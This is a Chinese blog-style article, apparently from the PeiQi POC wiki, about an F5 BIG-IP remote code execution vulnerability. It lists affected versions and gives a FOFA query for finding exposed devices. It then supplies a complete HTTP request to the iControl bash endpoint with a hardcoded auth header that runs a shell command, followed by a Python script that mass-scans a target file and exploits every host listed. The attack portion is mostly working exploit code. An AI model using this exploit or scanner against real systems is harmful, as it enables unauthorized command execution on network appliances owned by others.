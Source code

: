 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZtE7R4PPgdWY9ea06A9wqQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。

近日，F5 发布了 F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5 安全公告更新了 BIG-IP，BIG-IQ 中的多个严重漏洞。建议广大用户及时将 f5 big-iq,f5 big-ip 升级到最新版本，避免遭到攻击。

**二:  漏洞影响🐇**

F5 BIG-IP 16.x: 16.1.0.3

F5 BIG-IP 15.x: 15.1.0.4

F5 BIG-IP 14.x: 14.1.2.6

F5 BIG-IP 13.x: 13.1.3.4

F5 BIG-IP 12.x: 12.1.5.2

F5 BIG-IP 11.x: 11.6.5.2

**三:  漏洞复现🐋**

**FOFA 语句: icon_hash="-335242539"**

**访问登录页面如下  
**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7UCiaYAH0MhZWQSKiayiaAThRDLDAjqy3Sk9yLXavqYqB3FaOYopbHZz3p6EMr81nFIsu19h5r7G54g/640?wx_fmt=png)

发送请求包

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7UCiaYAH0MhZWQSKiayiaAThRprKVhurzbPHLEiaEbJqaGjF3XXTPGJ91nuia0KFUn4HlWc9TFRn1zvvQ/640?wx_fmt=png)

成功执行命令 id

****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mgmt/tm/util/bash"
    headers = {
        "Authorization": "Basic YWRtaW46QVNhc1M=",
        "X-F5-Auth-Token": "",
        "Content-Type": "application/json"
    }
    data = '{"command":"run","utilCmdArgs":"-c id"}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=2)
        if "commandResult" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "https://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7UCiaYAH0MhZWQSKiayiaAThRgO5lE1XHFZrJlle60h4eBYdMVoMWPDdLNesP80nhlPrjqH9dq3Jn2g/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在公众号和交流群，想要加入交流群的公众号点击交流群加我拉你啦
> 
> 有漏洞想公开投稿的师傅加我，一起完善文库~
> 
> 别忘了 Github 下载完给个小星星⭐
> 
> https://github.com/PeiQi0/PeiQi-WIKI-POC

公众号